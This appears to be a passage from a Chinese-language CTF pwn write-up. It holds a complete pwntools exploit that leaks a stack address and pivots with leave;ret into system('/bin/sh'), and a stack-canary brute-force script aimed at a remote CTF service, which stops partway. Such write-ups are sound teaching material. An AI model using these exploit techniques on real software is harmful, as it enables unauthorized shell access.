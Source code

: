 ```python
p = b'a'*0x27+b'b'
r.send(p)
r.recvuntil(b'b')
ebp = u32(r.recv(4))
```

可以得到ebp的地址，然后-0x38得到s

完整exp:

```python
from pwn import *

r=process('./pwn3')
#r=remote('1.15.81.218',10002)

sys_addr=0x8048400
leave_ret=0x08048562
main_addr=0xdeadbeef

p=b'a'*0x27+b'b'
r.send(p)
r.recvuntil(b'b')
s_addr=ebp=u32(r.recv(4))-0x38  # ebp-s=0x38
print(s_addr)

p2=b'aaaa'+p32(sys_addr)+p32(main_addr)+p32(s_addr+0x10)+b"/bin/sh"
p2=p2.ljust(0x28,b'\x00')  # /bin/sh添上\x00
p2+=p32(s_addr)+p32(leave_ret)  # hijack s
r.send(p2)

r.interactive()
```
### brute?
brute canary,暴力破解金丝雀
```python
from pwn import *
from LibcSearcher import *

#r = process('./brute')
r=remote('1.15.81.218',20000)
canary = b'\x00'
def find():
    global canary,r
    #r = process('./brute')
    r=remote('1.15.81.218',20000)
    print(r.recvuntil(b'2021!\n'))
    canary = b'\x00'
    for j in range(3):
        for i in range(0x100):
            r.send(b'a'*100 + canary + bytes(chr(i).encode()))
            a = r.recvuntil(b'2021!\n')
            if b'Successfully' in a:
                canary += bytes(chr(i).encode())
                print(canary)
                break
    if(len(canary)!=4):
        find()

find()
print(canary)

elf = ELF('./brute')
system = elf.plt['system']
```